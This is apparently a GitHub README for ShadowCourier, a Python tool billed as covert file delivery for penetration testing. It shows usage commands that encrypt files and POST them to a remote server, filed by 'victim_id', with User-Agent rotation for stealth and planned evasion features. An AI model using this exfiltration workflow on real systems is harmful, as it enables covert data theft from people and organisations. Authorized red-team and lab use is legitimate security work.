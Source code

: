 # ShadowCourier 🕵️‍♂️

**Covert File Delivery for Penetration Testing**

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Python 3.6+](https://img.shields.io/badge/Python-3.6+-blue.svg)](https://www.python.org/downloads/)

**ShadowCourier** is a stealthy, Python-based tool for secure file transfers in **authorized penetration testing** and **CTF labs**. With **AES-256-CBC encryption**, **gzip compression**, and **User-Agent rotation**, it mimics real-world covert operations while staying ethical. Perfect for red teamers and security enthusiasts who love a *Hacker Simulator* vibe.

> **⚠️ Ethical Use Only**: ShadowCourier is for **authorized testing** and **educational purposes**. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.

---

## 🌟 Features

- **🔒 Military-Grade Encryption**: Secures files with **AES-256-CBC** for safe transit.
- **📦 Compact Payloads**: **Gzip compression** shrinks files (e.g., 378B to 200B) for stealth.
- **🕵️ Stealthy Transfers**: Rotates **User-Agent** headers to blend into browser traffic.
- **🛠️ Easy Configuration**: Uses `shadow_S.conf` (server) and `shadow_C.conf` (client) with environment variable overrides.
- **📂 Flexible Transfers**: Supports single files or directories with relative paths.
- **🔄 Reliable Delivery**: Configurable retries (default: 3) for unstable networks.
- **🎨 Cyberpunk Interface**: `tqdm` progress bars for a sleek, real-time experience.

**Stealth Score**: 🟠 **Moderate (6/10)**  
- **Pros**: Encrypted payloads, compressed data, browser-like headers.  
- **Cons**: HTTP headers and fixed ports are detectable. See [Future Enhancements](#future-enhancements).

---

## 🚀 Quick Start

1. **Clone the Repo**:
   ```bash
   git clone https://github.com/MOmar990/ShadowCourier.git
   cd ShadowCourier
   ```

2. **Set Up Server**:
   ```bash
   python3 -m venv server/env
   source server/env/bin/activate
   pip install pycryptodome
   python3 server/ghost_server.py
   ```

3. **Set Up Client**:
   ```bash
   python3 -m venv client/env
   source client/env/bin/activate:bold
   pip install requests tqdm pycryptodome colorama
   python3 client/shadow_client.py path/to/test.file
   ```

4. **Configure**: Edit `server/shadow_S.conf` and `client/shadow_C.conf` with your server IP and settings.

---

## 🛠️ How It Works

ShadowCourier uses a client-server model for secure file transfers:

- **Ghost Server (`ghost_server.py`)**:
  - Listens on a configurable port (default: 8080) at `/upload`.
  - Receives JSON payloads, decrypts **AES-256-CBC** data, decompresses **gzip**, and saves files to `uploads/<victim_id>/`.
  - Logs transfers with client IP and file sizes.

- **Shadow Client (`shadow_client.py`)**:
  - Compresses files with **gzip**, encrypts with **AES-256-CBC**, and sends via HTTP POST.
  - Rotates **User-Agent** headers (Chrome, Firefox, etc.) for stealth.
  - Shows progress with `tqdm` bars and file size stats.

**Data Flow**:
```
[Client] -> Gzip -> AES-256-CBC -> Base64 -> JSON -> HTTP POST
[Server] <- HTTP POST <- JSON <- Base64 <- AES-256-CBC <- Gzip
```

**Sample Payload**:
```json
{
  "file": "base64_encrypted_data",
  "filename": "test.file",
  "key": "base64_aes_key",
  "iv": "base64_iv",
  "is_compressed": "true",
  "victim_id": "default_victim"
}
```

---

## 📋 Requirements

- **Python**: 3.6+ (tested on 3.8–3.11)
- **OS**: Linux (recommended), macOS, or Windows (adjust paths)
- **Dependencies**:
  - Server: `pycryptodome`
  - Client: `requests`, `tqdm`, `pycryptodome`, `colorama`

Install:
```bash
pip install requests tqdm pycryptodome colorama
```

---

## 🎮 Usage

### Start the Server
```bash
cd server
source env/bin/activate
python3 ghost_server.py --port 8080 --upload-dir ~/ShadowCourier/uploads
```
**Output**:
```
[*] Loaded config from shadow_S.conf
[*] Server online at 0.0.0.0:8080, saving to ~/ShadowCourier/uploads...
```

### Run the Client
```bash
cd client
source env/bin/activate
python3 shadow_client.py path/to/file --url http://<server-ip>:8080/upload
```
**Output**:
```
[*] Loaded config from shadow_C.conf
[*] Transferring 1 files to http://<server-ip>:8080/upload
[*] Size: 378B, compressed: 200B, encrypted: 280B
[+] Success: file transferred
```

**Options**:
- `--port <PORT>`: Server port.
- `--url <URL>`: Server endpoint.
- `--victim-id <ID>`: Custom ID for file organization.
- `--retries <N>`: Retry attempts.

---

## 🛡️ Stealth Analysis

- **Pros**: AES-256-CBC encryption, gzip compression, User-Agent rotation.
- **Cons**: HTTP headers and fixed ports are scannable.

**Stealth Score**: 🟠 **Moderate (6/10)**

---

## 🐛 Troubleshooting

- **Server Unreachable**:
  ```bash
  curl -v http://<server-ip>:8080/upload
  sudo ufw status
  ```

- **JSON Errors**:
  Check `file`, `filename`, `key`, `iv`, `is_compressed`, `victim_id` in payloads.

- **Dependencies**:
  ```bash
  pip install requests tqdm pycryptodome colorama
  ```

---

## 🔮 Future Enhancements

- **HTTPS**: Encrypt headers for stealth.
- **Dynamic Ports**: Avoid scans.
- **Proxies**: Add HTTP/SOCKS support.
- **Steganography**: Hide data in images.

Suggest features via GitHub Issues!

---

## 🤝 Contributing

1. Fork the repo.
2. Branch: `git checkout -b feature/awesome-idea`.
3. Commit: `git commit -m "Add awesome idea"`.
4. Push: `git push origin feature/awesome-idea`.
5. Open a Pull Request.

See [Code of Conduct](CODE_OF_CONDUCT.md).

---

## ⚖️ License

[MIT License](LICENSE)

---

## 📜 Disclaimer

For **educational and authorized use only**. Misuse is illegal. The developers are not liable for unethical actions.

---

**Star ⭐ the repo and hack ethically!** 🖥️🔒
